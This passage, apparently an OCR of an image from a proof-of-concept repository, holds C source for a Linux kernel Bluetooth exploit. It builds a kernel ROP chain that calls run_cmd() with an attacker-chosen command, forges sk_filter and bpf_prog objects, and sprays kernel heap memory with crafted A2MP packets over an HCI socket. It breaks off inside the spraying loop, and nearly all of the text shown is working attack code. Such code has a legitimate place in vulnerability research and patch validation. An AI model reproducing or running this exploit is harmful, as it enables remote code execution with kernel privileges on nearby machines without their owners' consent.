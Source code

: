     static void build_krop(uint64_t *rop, uint64_t cmd_addr) {
      *rop++ = kaslr_offset + POP_RAX_RET;
      *rop++ = kaslr_offset + RUN_CMD;
      *rop++ = kaslr_offset + POP_RDI_RET;
      *rop++ = cmd_addr;
      *rop++ = kaslr_offset + JMP_RAX;
      *rop++ = kaslr_offset + POP_RAX_RET;
      *rop++ = kaslr_offset + DO_TASK_DEAD;
      *rop++ = kaslr_offset + JMP_RAX;
    }

    static void build_payload(uint8_t data[0x400]) {
      // Fake sk_filter object starting at offset 0x300.
      *(uint64_t *)&data[0x318] = l2cap_chan_addr + 0x320; // prog

      // Fake bpf_prog object starting at offset 0x320.
      // RBX points to the amp_mgr object.
      *(uint64_t *)&data[0x350] =
          kaslr_offset +
          PUSH_RSI_ADD_BYTE_PTR_RBX_41_BL_POP_RSP_POP_RBP_RET; // bpf_func
      *(uint64_t *)&data[0x358] = 0xDEADBEEF;                  // rbp

      // Build kernel ROP chain that executes run_cmd() from kernel/reboot.c.
      // Note that when executing the ROP chain, the data below in memory will be
      // overwritten. Therefore, the argument should be located after the ROP chain.
      build_krop((uint64_t *)&data[0x360], l2cap_chan_addr + 0x3c0);
      strncpy(&data[0x3c0], remote_command, 0x40);
    }

    static void spray_kmalloc_1024(int num) {
      // Skip first two hci devices because they may be legit.
      for (int i = 2; i < num + 2; i++) {
        printf("\r[*] Sending packet with id #%d...", i);
        fflush(stdout);

        struct {
          l2cap_hdr hdr;
          a2mp_hdr amp_hdr;
          a2mp_info_rsp info_rsp;
        } info_rsp = {0};
        info_rsp.hdr.len = htobs(sizeof(info_rsp) - L2CAP_HDR_SIZE);
        info_rsp.hdr.cid = htobs(AMP_MGR_CID);
        info_rsp.amp_hdr.code = A2MP_INFO_RSP;
        info_rsp.amp_hdr.ident = L2CAP_IDENT;
        info_rsp.amp_hdr.len =
            htobs(sizeof(info_rsp) - L2CAP_HDR_SIZE - sizeof(a2mp_hdr));
        info_rsp.info_rsp.id = i;
        hci_send_acl_data(hci_sock, hci_handle, &info_rsp, sizeof(info_rsp), 2);

        struct {
          l2cap_hdr hdr;
          a2mp_hdr amp_hdr;
          a2mp_assoc_rsp assoc_rsp;
          uint8_t data[0x400];
        } assoc_rsp = {0};
        assoc_rsp.hdr.len = htobs(sizeof(assoc_rsp) - L2CAP_HDR_SIZE);
        assoc_rsp.hdr.cid = htobs(AMP_MGR_CID);
        assoc_rsp.amp_hdr.code = A2MP_ASSOC_RSP;
        assoc_rsp.amp_hdr.ident = L2CAP_IDENT;
        assoc_rsp.amp_hdr.len =
            htobs(sizeof(assoc_rsp) - L2CAP_HDR_SIZE - sizeof(a2mp_hdr));
        assoc_rsp.assoc_rsp.id = i;
        for (int j = 0; j < sizeof(assoc_rsp.data); j += 8)
          memset(&assoc_rsp.data[j], 'A' + j / 8, 8);
        build_payload(assoc_rsp.data);
